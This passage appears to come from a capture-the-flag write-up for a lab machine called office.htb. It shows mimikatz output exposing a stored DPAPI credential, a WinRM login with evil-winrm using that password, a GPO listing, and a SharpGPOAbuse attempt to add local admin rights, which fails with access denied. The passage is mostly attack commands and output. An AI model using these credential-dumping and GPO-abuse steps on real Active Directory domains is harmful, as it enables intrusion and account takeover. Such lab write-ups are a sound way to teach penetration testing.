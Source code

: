 ```console
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=OFFICE\HHogan
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```

# Privilege Escalation
With the found DPAPI credentials we can now get a WinRM session with the user `HHogan`. This user is a member of the `GPO Managers` group and there are a few GPOs in the domain.

```console
$ evil-winrm -i 10.10.11.3 -u hhogan -p 'H4ppyFtW183#'
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName

DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
```

We can assume that this user can edit GPOs (this can be confirmed by running BloodHound). GPOs, or Group Policy Objects, are policies that Windows uses to manage computers at scale. We can use a tool [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) in order to create a Policy that adds us as a local admin.

```console
*Evil-WinRM* PS C:\Programdata> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount HHogan --GPOName "Windows Firewall GPO"
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Windows Firewall GPO" is: {04FE5C75-0078-4D44-97C5-8A796BE906EC}
Access to the path '\\office.htb\SysVol\office.htb\Policies\{04FE5C75-0078-4D44-97C5-8A796BE906EC}\Machine\Microsoft\Windows NT\SecEdit\' is denied.[!] 
Exiting...
```

